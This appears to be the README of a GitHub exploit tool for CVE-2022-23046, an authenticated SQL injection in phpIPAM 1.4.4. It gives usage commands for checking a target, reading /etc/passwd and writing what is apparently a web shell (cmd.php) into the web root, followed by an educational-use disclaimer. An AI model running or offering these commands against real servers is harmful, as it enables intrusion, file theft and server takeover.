 # CVE-2022-23046 phpIPAM 1.4.4 - SQL Injection

phpIPAM v1.4.4 allows an authenticated admin user to inject SQL sentences in the subnet parameter while searching a subnet via app/admin/routing/edit-bgp-mapping-search.php. This project currently prints out database information and host version information. It can also attempt to read files and write to the server as well.

## Getting Started

### Executing program

* To check if it is vulnerable.
```
python3 phpipam_1.4.4.py -t http://phpipam.com/ -u username -p password
```
* For test for file read
```
python3 phpipam_1.4.4.py -t http://phpipam.com/ -u username -p password -f /etc/passwd
```
* For test for file write
```
python3 phpipam_1.4.4.py -t http://phpipam.com/ -u username -p password -w /var/www/html/cmd.php
```

## Help

For Help Menu
```
python3 phpipam_1.4.4.py -h
```

## Acknowledgments

* [FluidAttacks](https://fluidattacks.com/advisories/mercury/)

## Disclaimer
All the code provided on this repository is for educational/research purposes only. Any actions and/or activities related to the material contained within this repository is solely your responsibility. The misuse of the code in this repository can result in criminal charges brought against the persons in question. Author will not be held responsible in the event any criminal charges be brought against any individuals misusing the code in this repository to break the law.